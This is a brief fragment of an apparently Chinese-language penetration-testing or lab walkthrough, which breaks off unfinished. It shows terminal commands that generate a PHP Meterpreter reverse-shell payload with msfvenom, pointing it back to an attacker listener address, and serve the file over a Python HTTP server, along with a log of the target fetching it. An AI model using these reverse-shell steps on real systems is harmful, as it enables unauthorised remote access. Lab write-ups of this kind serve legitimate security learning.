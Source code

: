 ``` bash

 ```

进行一波探测和弹出shell的尝试

非常熟练的生成shell 尝试传递

 ``` bash
┌──(kali㉿Esonhugh)-[~]
└─$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.31.141 LPORT=4444 -f raw -o ./shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1115 bytes
Saved as: ./shell.php

┌──(kali㉿Esonhugh)-[~]
└─$ python -m http.server
python3 is default python version in python command which created by alias

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.31.241 - - [16/Jan/2021 18:31:34] "GET /shell.php HTTP/1.1" 200 -


 ```

To be continue ..
